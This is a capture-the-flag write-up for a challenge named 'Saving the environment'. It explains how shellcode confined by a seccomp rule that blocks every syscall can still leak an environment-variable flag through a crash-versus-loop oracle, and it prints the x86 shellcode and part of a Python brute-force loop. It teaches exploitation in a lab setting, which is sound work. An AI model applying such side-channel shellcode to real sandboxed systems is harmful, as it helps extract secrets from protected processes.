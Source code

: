 # Saving the environment
## Challenge description
The flag is stored as an environment variable. The challenge at start print all the environment variable except for the flag that is replaced with `FLAG=... Lets not print this one...`. It also mmap a fixed memory region rwx. Then the challenge take a shellcode as input and put it in the rwx region. Before executing the shellcode it sets a seccomp rule which disallow every syscall.

## Get the flag
Before jumping to the shellcode the challenge set to 0 every register except for rbp and rsp. Luckly the environment variable are stored in the stack (as the variable envp). So we can access the flag as offset of rbp. To get the flag offset in the env we can refer to the order in which they are printed at start.

The problem is that to print the flag we need to use syscalls. To get the flag we can set up an oracle which allows us to bruteforce the flag one byte at a time. The challenge comes with a wrapper which notice us when the program crush so it's easy for us to detect a crush. To do that I used the following shellcode:
```x86asm
mov rbx, QWORD PTR [rbp - {ENVP_OFFSET}]
mov rax, rbx
add rax, {FLAG_ENV_OFFSET}
mov rdi, QWORD PTR [rax]
add rdi, 5
mov dl, BYTE PTR [rdi + {index}]
cmp dl, {ord(character)}
je loop
mov rax, 0x0
mov rax, QWORD PTR [rax]
loop:
mov rcx, 0x500000
jmp loop
```
where index is the position of the character we are bruteforcing in the flag, while characheter is the character we are trying and ENVP_OFFSET is the offset of envp from rbp. If we found the character the program will loop and it will not terminate, while if we got it wrong the program will crush trying to deferenciate 0x0. We can iterate it checking each time if the process got killed
```py
while True:
    ...
    res = p.recvuntil(b"Killed... What did you do??", timeout=TIMEOUT)
    if not (b"Killed" in res):
        flag = guess
        break
    p.close()
```